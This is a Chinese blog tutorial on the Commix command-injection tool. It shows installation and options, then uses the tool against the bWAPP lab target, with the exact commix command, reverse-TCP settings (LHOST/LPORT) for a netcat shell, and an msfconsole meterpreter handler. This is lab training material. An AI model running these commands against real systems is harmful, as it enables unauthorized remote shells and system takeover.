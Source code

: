 ```yaml
---
layout:     post
title:      Commix工具的使用
subtitle:   命令执行漏洞的检测工具
date:       2019-07-22
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 工具使用
---
```

# 安装
安装Commix很简单，Linux下只需要输入以下命令即可：
```
git clone https://github.com/commixproject/commix.git commix
```
Windows系统只要在Github上下载源码下来，用python运行就行：
```
https://github.com/commixproject/commix
```
## 运行环境
Python 2.6.x or 2.7.x
## 运行
python commix.py [options]

# 常用命令
```
-h, --help            显示帮助信息
--verbose             开启详细模式
--install             将“commix”安装到您的系统
--version             显示当前版本
--update              检查更新
--url=URL           目标URL
--url-reload        命令执行后重新加载目标URL
--host=HOST         HTTP Host header.
--referer=REFERER   HTTP Referer header.
--user-agent=AGENT  HTTP User-Agent header.
--cookie=COOKIE     HTTP Cookie header.
--headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
--proxy=PROXY       使用代理 (e.g. '127.0.0.1:8080').
--data=DATA         POST data to inject (use 'INJECT_HERE' tag).
--suffix=SUFFIX     Injection payload suffix string.
--prefix=PREFIX     Injection payload prefix string.
--technique=TECH    Specify a certain injection technique : 'classic',
                    'eval-based', 'time-based' or 'file-based'.
--maxlen=MAXLEN     The length of the output on time-based technique
                    (Default: 10000 chars).
--delay=DELAY       Set Time-delay for time-based and file-based
                    techniques (Default: 1 sec).
--base64            Use Base64 (enc)/(de)code trick to prevent false-
                    positive results.
```
# 检测命令执行漏洞
以bWAPP为靶机进行测试，进入OS Command injection靶场页面

![图片](../../../../img/commix_1.png)

输入一个域名后，使用抓包工具抓取HTTP请求数据包
![图片](../../../../img/commix_2.png)

然后进入Kali Linux 输入以下命令：
```
commix -u "http://10.20.40.147/bWAPP/commandi.php" --data "target=www.baidu.com&form=submit" --cookie "PHPSESSID=a26193b0ef93766968e0b2daae34971f; security_level=0"
```
![图片](../../../../img/commix_3.png)

从上图可以看到，命令执行漏洞被Commix发现，并且我们可以在命令终端上输入任意系统命令
# 反弹shell
下面我们来通过Commix反弹到NC和MSF上。
## 反弹至NC
在Commix检测到存在命令执行漏洞后，会返回一个交互行，输入以下内容后进入选项，要反弹到NC上，在Reverse TCP shells 时选1，Unix-like targets 时 选 1:
```
reverse_tcp
set LHOST your_ip
set LPORT your_port
```
![图片](../../../../img/commix_4.png)
在回车之前，先打开NC 监听端口，下图可以看到成功反弹到了NC上：
![图片](../../../../img/commix_5.png)

## 反弹至MSF
在Commix检测到存在命令执行漏洞后，会返回一个交互行，输入以下内容后进入选项，要反弹到MSF上，在Reverse TCP shells 时选2，Metarpreter reverse TCP shells 时选 8，如果靶场环境搭建在Windows上，可以选择10 。

![图片](../../../../img/commix_6.png)
回车后，会自动生成rc文件，这时我们只要打开一个新的命令终端，输入以下命令：
```
msfconsole -r /usr/share/commix/php_meterpreter.rc
```
下图可以看到，成功反弹到了MSF上
![图片](../../../../img/commix_7.png)


